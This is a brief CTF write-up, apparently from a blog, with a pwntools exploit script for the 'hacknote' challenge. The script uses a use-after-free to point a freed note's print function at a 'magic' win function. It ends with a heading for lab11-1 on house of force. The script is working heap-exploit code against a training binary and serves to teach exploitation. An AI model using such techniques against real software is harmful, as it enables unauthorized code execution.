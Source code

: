 ![image-20220915212825174](/assets/img/2022/image-20220915212825174.png)

exp:

```python
from pwn import *


r = process('./hacknote')
elf = ELF('./hacknote')
context.terminal = ['tmux', 'splitw', '-h']
def debug():
    gdb.attach(r)
    pause()

def add_note(size, con):
    r.recvuntil('Your choice :')
    r.sendline(str(1))
    r.recvuntil('Note size :')
    r.sendline(str(size))
    r.recvuntil('Content :')
    r.sendline(con)

def delete_note(index):
    r.recvuntil('Your choice :')
    r.sendline(str(2))
    r.recvuntil('Index :')
    r.sendline(str(index))

def print_note(index):
    r.recvuntil('Your choice :')
    r.sendline(str(3))
    r.recvuntil('Index :')
    r.sendline(str(index))

add_note(0x20, 'aaaa') #0
add_note(0x20, 'bbbb') #1
delete_note(0)
delete_note(1)

magic = 0x8048986
add_note(0x10, p64(elf.symbols['magic']))

print_note(0)

r.interactive()
```

# lab11-1 

> 考点：house of force
